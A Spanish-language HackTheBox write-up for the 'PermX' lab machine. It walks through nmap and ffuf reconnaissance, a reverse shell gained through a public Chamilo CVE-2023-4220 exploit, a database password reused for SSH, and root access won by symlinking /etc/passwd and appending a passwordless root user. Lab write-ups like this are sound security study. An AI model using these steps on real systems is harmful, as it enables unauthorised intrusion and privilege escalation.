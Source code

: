 ```yaml
---
title: PermX
date: 2024-08-03
categories: [WRITEUPS, HackTheBox]
tags: [chamilo]  # TAG names should always be lowercase
image: /assets/images/hackthebox/permxlogo.png
---
```


![picture](/assets/images/hackthebox/permx1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que se va a realizar es un escaneo de puertos con *NMAP* para comprobar cuáles de ellos están abiertos.

```bash
nmap -p- --open -T5 -sT 10.10.11.23 -n -Pn -v
```

![picture](/assets/images/hackthebox/permx2.png){: w="600" h="300" }

A continuación, añadiremos al */etc/hosts* la dirección *IP* de la máquina, junto con el dominio, para que resuelva el nombre de dominio.

![picture](/assets/images/hackthebox/permx3.png)

Una vez hecho esto, vamos a entrar en la página web.

![picture](/assets/images/hackthebox/permx4.png)

Navegando por la página web no encontramos nada interesante, con lo que realizaremos Fuzzing para encontrar subdominios.

```bash
ffuf -c -u hhtp://permx.htb/ -H "Host: FUZZ.permx.htb" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18
```

![picture](/assets/images/hackthebox/permx5.png)

Encontramos el subdominio **lms**.

A continuación, hay que añadir el subdominio al */etc/hosts* como hemos hecho antes.

![picture](/assets/images/hackthebox/permx6.png)

Y en el subdominio, nos encontramos un panel de autenticación de **Chamilo**.

![picture](/assets/images/hackthebox/permx7.png)

---

## **Explotación**

Con la extensión de *Wappalyzer*, podemos ver que la *versión* de **Chamilo** es la **1**, una versión muy antigua.

![picture](/assets/images/hackthebox/permx8.png)

Navegando por internet encontramos [**CVE-2023-4220**](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc), con el cual podemos ejecutar un **RCE**(*Remote Code Execution*) sin autenticación, nos descargamos e instalamos el repositorio de GitHub como nos indican.

Ejecutamos el script **main.py** junto con el dominio para comprobar si es vulnerable.

```bash
python3 main.py -u http://lms.permx.htb -a scan
```

![picture](/assets/images/hackthebox/permx9.png)

![picture](/assets/images/hackthebox/permx10.png)

Y a continuación nos permite crear tanto una **Web Shell** (*para poder ejecutar comandos desde el navegador*), como una **Reverse Shell** (*para enviarnos una Shell interactiva a nuestra máquina local*), en mi caso, crearé una **Reverse Shell**, para ello nos ponemos en escucha con un **Listener** con **ncat** por un puerto (*4444*) en nuestra máquina local, y una vez lo tengamos, ejecutamos el script.

- Listener

```bash
nc -nlvp 4444
```

- Ejecución del script

```bash
python3 main.py -u http://lms.permx.htb -a revshell
```
Indicamos nuestra dirección IP y el puerto por el que estamos escuchando con *ncat*.

![picture](/assets/images/hackthebox/permx11.png){: w="600" h="300" }

Y obtenemos una **Shell interactiva** con el usuario *www-data*.

![picture](/assets/images/hackthebox/permx12.png)

---

## **Escalada de privilegios**

Buscando dentro de la máquina, en el archivo de configuración */var/www/chamilo/app/config/**configuration.php*** encontramos una contraseña de la base de datos.

![picture](/assets/images/hackthebox/permx13.png){: w="600" h="300" }

Si comprobamos el archivo */etc/passwd*, podemos ver que hay un usuario llamado ***mtz***, vamos a probar a conectarnos mediante **SSH** usando la contraseña encontrada.

Y obtenemos acceso.

![picture](/assets/images/hackthebox/permx14.png)

Primera **flag** encontrada en el directorio personal.

![picture](/assets/images/hackthebox/permx15.png)

A continuación, vamos a intentar escalar los máximos privilegios.

Al mostrar los privilegios de **SUDO** que tiene el usuario ***mtz***, comprobamos que no necesita usar contraseña para ejecutar el script *acl.sh*.

![picture](/assets/images/hackthebox/permx16.png)

El script proporciona una forma de añadir permisos específicos a un archivo para un usuario determinado, siempre y cuando el archivo esté dentro del directorio */home/mtz/*.

![picture](/assets/images/hackthebox/permx17.png){: w="500" h="200" }

A continuación, crearemos un link simbólico del archivo */etc/passwd*, a un archivo llamado "*prueba*" en el directorio */home/mtz*, y ejecutaremos el script para darle **permisos** de **lectura** y **escritura** al archivo creado.

```bash
ln -s /etc/passwd /home/mtz/prueba
```

```bash
sudo /opt/acl.sh mtz rw /home/mtz/prueba
```

![picture](/assets/images/hackthebox/permx18.png)

A continuación, introduciremos un usuario nuevo sin contraseña y con la bash de **root**.

```bash
echo "pwned::0:0:root:/pwned:/bin/bash" >> /home/mtz/prueba
```

![picture](/assets/images/hackthebox/permx19.png)

Migramos de usuario a "**pwned**", y entramos como "**root**".

![picture](/assets/images/hackthebox/permx20.png)

Y en el directorio personal de **root**, obtenemos la segunda **flag**.

![picture](/assets/images/hackthebox/permx21.png)

![picture](/assets/images/hackthebox/permx22.png){: w="600" h="300" }
